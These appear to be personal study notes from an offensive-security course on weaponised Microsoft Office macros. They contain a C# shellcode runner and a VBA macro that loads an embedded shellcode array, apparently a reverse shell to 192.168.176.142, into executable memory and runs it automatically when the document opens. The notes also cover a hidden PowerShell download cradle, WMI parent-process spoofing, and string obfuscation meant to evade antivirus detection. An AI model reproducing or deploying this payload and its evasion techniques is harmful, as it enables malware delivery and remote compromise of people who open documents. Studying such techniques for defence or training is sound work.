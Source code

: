 
## To Do:
1. 6.8.2 - Update the PowerShell shellcode runner to 64-bit.
2. rc4 encryption and macro obfuscation
3. test those against AV
### Shellcode Runner Again

- Main body consists of the following
```csharp
			int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, 
                IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
```
- `btye[] buf = new byte[###] {...}`
- VirtualAlloc is a Win32 function call and is imported into C# using 

### Using CsWin32 source generator

- Create project in VS Studio Code (C# Console or C# .Net Console app)
- Project needs to be sdk type
- Search for cswin32 and install
- ![[Pasted image 20240609122343.png]]
- need to add addition nuget System.Memory package as well
```ps1

dotnet add package System.Memory

```
- or using VS Code
- ![[Pasted image 20240609122644.png]]

- create NativeMethods.txt file in project
- Allow unsafe code
- ![[Pasted image 20240609123606.png]]

**TODO** : Not Quite working for me yet. PInvoke."type" mapping doesn't match what was in the mapping from Offsec. Need to go through MS Docs.


### MS Office
- VBA Script to execute payload in memory
```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function mymacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    
    buf = Array(232, 130, 0, 0, 0, 96, 137, 229, 49, 192, 100, 139, 80, 48, 139, 82, 12, 139, 82, 20, 139, 114, 40, 15, 183, 74, 38, 49, 255, 172, 60, 97, 124, 2, 44, 32, 193, 207, 13, 1, 199, 226, 242, 82, 87, 139, 82, 16, 139, 74, 60, 139, 76, 17, 120, 227, 72, 1, 209, 81, 139, 89, 32, 1, 211, 139, 73, 24, 227, 58, 73, 139, 52, 139, 1, 214, 49, 255, 172, 193, _
...
49, 57, 50, 46, 49, 54, 56, 46, 49, 55, 54, 46, 49, 52, 50, 0, 187, 224, 29, 42, 10, 104, 166, 149, 189, 157, 255, 213, 60, 6, 124, 10, 128, 251, 224, 117, 5, 187, 71, 19, 114, 111, 106, 0, 83, 255, 213)

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)

Sub Document_Open()
    mymacro
End Sub

Sub AutoOpen()
    mymacro
End Sub

End Function
```


### Powershell inside VBA

- Download cradle: hide a `powershell -exec bypass -nop -c iex()` inside a macro as a starting point
- call Shell stringArg, vbHide which will trigger some AV products
- problem is that Powershell becomes a child process of the calling MS Office program
- _Windows Management Instrumentation_ (WMI) framework can be leveraged to move around this
	- "**Windows Management Instrumentation** (**WMI**) consists of a set of extensions to the [Windows Driver Model](https://en.wikipedia.org/wiki/Windows_Driver_Model "Windows Driver Model") that provides an [operating system](https://en.wikipedia.org/wiki/Operating_system "Operating system") interface through which [instrumented](https://en.wikipedia.org/wiki/Instrumentation_(computer_programming) "Instrumentation (computer programming)") components provide information and notification." (https://en.wikipedia.org/wiki/Windows_Management_Instrumentation)
- Leverage WMI for process creation bypassing of MS Office and use WMI for the parent process
- To create a process, will need to use Win32_Process to instantiate
```vb
Sub MyMacro
  strArg = "powershell"
  GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub

Sub AutoOpen()
    Mymacro
End Sub
```
- this will create a child Powershell process of the parent process Wmiprvse.exe

### TODO: re 64 vs 32 bit code (need to test this out)

- to circumvent running powershell in 32-bit mode on 64-bit system, one can use the Sysnative directory
- The **Sysnative** folder is only available in a 64-bit Windows
```powershell
%windir%\sysnative\WindowsPowerShell\v1.0\powershell.exe -file myScript.ps1
```
- can try checking directory and if exists, run 64-bit; otherwise, run 32-bit
```vb
If My.Computer.FileSystem.DirectoryExists("C:\backup\logs") Then
    Dim logInfo = My.Computer.FileSystem.GetDirectoryInfo(
        "C:\backup\logs")
End If
```

#### Obfuscation methods:

- StrReverse (string reverse) to break signature detection of WMI calls, etc...
- create a function that just calls StrReverse so that VBA code isn't littered with StrReverse calls 
- convert strings to charcode and encrypt the string
- obfuscate variable and function names

